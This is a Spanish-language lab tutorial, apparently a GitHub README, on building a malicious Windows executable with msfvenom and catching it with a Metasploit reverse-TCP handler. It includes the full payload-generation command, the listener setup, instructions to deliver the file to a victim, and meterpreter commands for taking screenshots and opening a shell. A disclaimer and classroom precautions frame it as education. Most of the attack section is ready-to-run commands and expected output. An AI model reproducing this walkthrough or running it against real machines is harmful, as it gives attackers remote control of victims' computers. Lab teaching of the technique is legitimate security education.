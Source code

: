 # ✅ **Payload malicioso en Windows 10 con Metasploit**
______________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________
Aclaración: Este método no necesita que Windows 10 sea vulnerable. Simplemente simula lo que pasaría si un usuario hace clic en un archivo malicioso, como ocurre con malware real.
______________________________________
## 🧰 **Requisitos del entorno de laboratorio**
- 💻 [Kali Linux (máquina atacante).](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina víctima: Windows 10  sin parches adicionales de seguridad, si es posible.](https://archive.org/details/windows-10-original)
-	Ambas máquinas en la misma red (virtual o real)
-	Desactivar antivirus y firewall en Windows 10 (solo para pruebas)
________________________________________
## 🧪 **PASO A PASO: Payload con Metasploit en Windows 10**
________________________________________
**🔹1. Crear el archivo malicioso con msfvenom**
<pre> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o virus.exe </pre>
-	**LHOST:** [IP_de_Kali]
-	**LPORT:** el puerto por donde escucharás
-	**-f exe:** formato ejecutable de Windows
- **-o:** nombre del archivo
________________________________________
**🔹 2. Iniciar Metasploit**
<pre>msfconsole</pre>
________________________________________
**🔹 3. Configurar el listener (handler)**
<pre> use exploit/multi/handler </pre>
<pre> set PAYLOAD windows/meterpreter/reverse_tcp </pre>
<pre> set LHOST [IP_PC_CON_KALI] </pre>
<pre> set LPORT 4444 </pre>
<pre> exploit </pre>
________________________________________
**🔹 4. Enviar o ejecutar el archivo en Windows 10**
-	Copia el archivo **virus.exe** a la máquina Windows (por red compartida, USB, etc.).
-	Ejecuta el archivo manualmente (como si un usuario lo abriera por accidente).
________________________________________
**🔹 5. Resultado esperado**
En Kali deberías ver algo como:
```bash
[*] Meterpreter session 1 opened
```

Ahora puedes interactuar con la víctima:
```bash
meterpreter > sysinfo
meterpreter > screenshot
meterpreter > shell
```
________________________________________
## ⚠️ Precauciones para clase
- No conectar las máquinas a Internet.
-	Ejecutarlo en máquinas virtuales cerradas y restaurables.
-	Dejar en claro que esto no explota una falla del sistema, sino que aprovecha un descuido del usuario (ingeniería social).
________________________________________
## 📚 ¿Qué se enseña con este exploit?
-	Cómo se usa Metasploit en la práctica.
-	Cómo un atacante puede obtener acceso con un simple ejecutable.
-	La importancia de no ejecutar archivos desconocidos.
-	Cómo funciona una shell reversa (reverse shell).
________________________________________
## 🧑‍🏫 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
________________________________________
## 📄 Licencia

Este material se distribuye bajo la licencia [MIT](LICENSE).
________________________________________

> Si te resulta útil, ¡no olvides darle ⭐ al repo o compartirlo!	
